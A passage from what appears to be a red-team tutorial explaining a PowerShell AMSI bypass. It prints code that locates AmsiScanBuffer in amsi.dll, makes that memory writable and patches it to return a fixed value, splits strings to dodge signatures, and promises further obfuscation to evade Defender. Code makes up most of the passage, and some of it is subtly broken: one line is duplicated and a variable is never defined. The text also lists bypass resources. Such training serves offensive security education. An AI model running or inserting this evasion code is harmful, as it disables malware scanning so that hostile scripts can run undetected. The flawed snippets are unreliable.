 This may seem like a lot of fancy and chopped-up code if you are unfamiliar  with Windows architecture and PowerShell, but we can break it up and  identify what each section of code does.



The first section of code lines 3 - 10 will use C# to call-in  functions from Kernel32 to identify where amsi.dll has been loaded.

```
[DllImport(`"kernel32`")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

Once the C# functions are called in, the code will use Add-type to load the C# and identify the `AmsiScanBuffer` string in lines 13 - 16. This string can be used to determine where `amsi.dll` has been loaded and the address location using `GetProcAddress`.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
```

The next section of code lines 17 - 23 will modify memory permissions and patch `amsi.dll` to return a specified value.

```
[UInt32]$Size = 0x5;
[UInt32]$Size = 0x5;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

At this stage, we should have an AMSI bypass that partially works.  Signatures for most AMSI bypasses have been crafted, so this means that  AMSI and Defender themselves will catch these bypasses. This means we  will need to obfuscate our code a slight bit to evade signatures. AMSI  obfuscation will be covered in the next task.

For more information about AMSI bypasses, check out the following resources.

- https://offensivedefence.co.uk/posts/making-amsi-jump/
- https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf
- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
- https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim
- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.contextis.com/us/blog/amsi-bypass
- https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass
- https://amsi.fail/
- https://rastamouse.me/blog/asb-bypass-pt2/
- https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
- https://www.youtube.com/watch?v=F_BvtXzH4a4
- https://www.youtube.com/watch?v=lP2KF7_Kwxk
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
